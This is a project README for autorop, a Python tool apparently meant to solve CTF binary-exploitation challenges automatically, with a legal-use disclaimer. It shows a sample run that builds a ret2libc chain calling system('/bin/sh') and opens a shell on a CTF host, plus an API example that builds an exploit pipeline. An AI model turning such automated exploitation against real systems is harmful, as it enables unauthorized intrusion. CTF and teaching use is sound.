autorop
=======

|docs| |Test status| |MIT license|

Automated solver of classic CTF pwn challenges, with flexibility in mind.

Official documentation can be found at `autorop.readthedocs.io <https://autorop.readthedocs.io>`_.

Disclaimer
----------

Do not use this software for illegal purposes. This software is intended to be used in legal Capture the Flag competitions only.

Command line
------------

.. code-block:: text

    $ python -m autorop.autorop
    Usage: autorop BINARY [HOST IP]

.. code-block:: text

    $ python -m autorop.autorop tests/bamboofox/ret2libc bamboofox.cs.nctu.edu.tw 11002
    [+] Opening connection to bamboofox.cs.nctu.edu.tw on port 11002: Done
    [*] '/data/Projects/autorop/tests/bamboofox/ret2libc'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [*] Pipeline [1/4]: corefile
    ...
    [*] Pipeline [4/4]: system_binsh
    [*] Loaded 151 cached gadgets for '.autorop.libc'
    [*] 0x0000:       0xf7e09e70 system(0xf7f29fcc)
        0x0004:       0xf7df7bfa <adjust @0xc> add esp, 4; ret
        0x0008:       0xf7f29fcc arg0
        0x000c:        0x80484ed main()
    [*] Switching to interactive mode
    Hello!
    The address of "/bin/sh" is 0x804a02c
    The address of function "puts" is 0xf7e2eda0
    $ wc -c /home/ctf/flag
    57 /home/ctf/flag


API
---

Importing autorop automatically does a ``from pwn import *``, so you can use all of `pwntools' goodies <https://docs.pwntools.com/en/latest/>`_.

Central to autorop's design is the `pipeline <https://en.wikipedia.org/wiki/Pipeline_(software)>`_. Most functions take in a ``PwnState``, mutate it, and pass it on to the next function. This allows great simplicity and flexibility.

See how the below example neatly manages to "downgrade" the problem from something unique, to something generic that the ``classic_printf`` pipeline can handle.

.. code-block:: python

    from autorop import *

    BIN = "./tests/tjctf_2020/stop"


    def send_letter_first(t, data):
        # the binary expects us to choose a letter first, before it takes input unsafely
        t.sendline("A")
        # avoid messing up output by cleaning it of whatever "A" did
        t.clean(constants.CLEAN_TIME)
        # send actual payload
        t.sendline(data)
        # clean output so generic output gets out of the way
        t.recvuntil(b"Sorry, we don't have that category yet\n")


    # in this case a function is overkill,
    # but demonstrates the flexibility of custom pipelines
    def set_overwriter(state):
        state.overwriter = send_letter_first
        return state


    # create a starting state
    s = PwnState(BIN, process(BIN))

    # build a custom pipeline, connecting it to the classic_printf pipeline
    result = pipeline(s, set_overwriter, turnkey.classic_printf)

    # switch to interactive shell which we got via the exploit
    result.target.interactive()

.. |docs| image:: https://readthedocs.org/projects/autorop/badge/
    :target: https://autorop.readthedocs.io

.. |Test status| image:: https://github.com/mariuszskon/autorop/workflows/autorop%20test/badge.svg
    :target: https://github.com/mariuszskon/autorop/actions?query=workflow%3A%22autorop+test%22

.. |MIT license| image:: https://img.shields.io/badge/license-MIT-blue.svg
    :target: https://github.com/mariuszskon/autorop/blob/master/LICENSE
